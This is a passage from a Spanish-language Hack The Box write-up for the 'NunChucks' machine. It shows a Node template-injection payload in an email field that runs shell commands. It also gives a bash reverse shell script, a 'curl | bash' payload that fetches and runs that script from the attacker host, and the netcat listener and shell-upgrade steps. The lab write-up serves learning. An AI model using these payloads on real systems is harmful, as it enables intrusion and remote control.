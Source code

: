 <img src="/writeups/assets/img/NunChucks-htb/4.png" alt="">

Intercepto la petición con ```BurpSuite``` y ahí introduzco el payload en el campo ```email```

{%raw%}
```null
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('id')\")()}}"}
```
{%endraw%}

En la respuesta se ve el comando ejecutado

{%raw%}
```null
{"response":"You will receive updates on the following email address: uid=1000(david) gid=1000(david) groups=1000(david)\n."}
```
{%endraw%}

Creo un archivo ```index.html``` que a la hora de compartirlo e interpretarlo me envíe una reverse shell

```null
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1'
```

Utilizo un servicio HTTP con python para hostearlo

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.122 - - [15/Jun/2023 09:11:49] "GET / HTTP/1.1" 200 -
```

{%raw%}
```null
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl 10.10.16.6 | bash')\")()}}"}
```
{%endraw%}

Recibo la conexión en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.122] 54654
bash: cannot set terminal process group (1028): Inappropriate ioctl for device
bash: no job control in this shell
david@nunchucks:/var/www/store.nunchucks$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
david@nunchucks:/var/www/store.nunchucks$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
david@nunchucks:/var/www/store.nunchucks$ export TERM=xterm
david@nunchucks:/var/www/store.nunchucks$ export SHELL=bash
david@nunchucks:/var/www/store.nunchucks$ stty rows 55 columns 209
```